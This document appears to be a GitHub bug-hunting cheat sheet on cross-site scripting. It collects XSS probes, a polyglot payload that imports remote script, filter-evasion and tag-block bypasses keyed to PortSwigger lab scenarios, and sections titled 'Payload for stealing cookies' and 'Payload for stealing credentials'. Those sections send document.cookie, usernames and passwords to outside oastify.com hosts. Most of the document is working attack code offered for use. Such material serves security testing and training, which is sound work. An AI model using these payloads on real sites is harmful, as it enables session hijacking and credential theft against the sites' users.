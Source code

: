 ## Testing XSS
**One Payload For Testing All Kinds of scenario**
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
**Note**
  1. Check html tag and attribute for reflection.
  2. If < and > symbol reflecting in source code without encoding, XSS possible.
  3. If ' or " symbol reflecting in source code without encoding, XSS possible.

**Testing XSS in every type of scenario**
```js
<script>alert(1337)</script>

><script>alert(1337)</script>

<sCrIpt>alert(1337)</sCripT>

">cyborg71<script>alert(1337)</script>

<svg/ onload=alert(1337)//

<Svg/OnLoad=(confirm)(1337)<!--

<body/OnResize=(confirm)(123456)<!--

<img src=x onerror=alert(1337)>

</script><img src=x onerror=alert(1337)>

<iframe src="javascript:alert(1337)">

';alert(1337)//

${alert(1337)}

<custom-tag onmouseover='alert(1337)'>

/?x=y'%09onclick='alert(1337)'%09accessKey='x'

/?'accesskey='x'onclick='alert(1337)

javascript:alert(1337) (Inject in href attribute)

y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E

"><h1>cyborg.71</h1>

<script onclick="alert(1337)">

<a href="javascript:alert('XSS')">Click me</a>

<img src=https://i.imgflip.com/8uo0t9.jpg>
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
**External source of payloads**

https://github.com/payloadbox/xss-payload-list

**For filter bypass**

https://github.com/terjanq/Tiny-XSS-Payloads

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
```js
<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
**XSS Filter Evasion Cheat Sheet**
<br>
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
## For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
## Angle brackets HTML-encoded bypass
**Reflected XSS into HTML attribute with angle brackets HTML-encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
<br>
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
<br>
<br>
**Reflected XSS into a JavaScript string with angle brackets HTML encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
<br>
<br>
## Reflected XSS into a JavaScript string with single quote and backslash escaped
<br>
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.

```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.

![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
<br>

**Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**

<br>
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>
![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
<br>

**Reflected XSS into HTML context with most tags and attributes blocked**
<br>
Bruteforce for getting allowed tags.
<br>
***Check this Portswigger lab for details:*** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked.
```
"><body onresize=alert(1337)>
```
<br>
  
**Reflected XSS into HTML context with all tags blocked except custom ones**

<br>
Key Note
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
## Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
  
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.

![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X
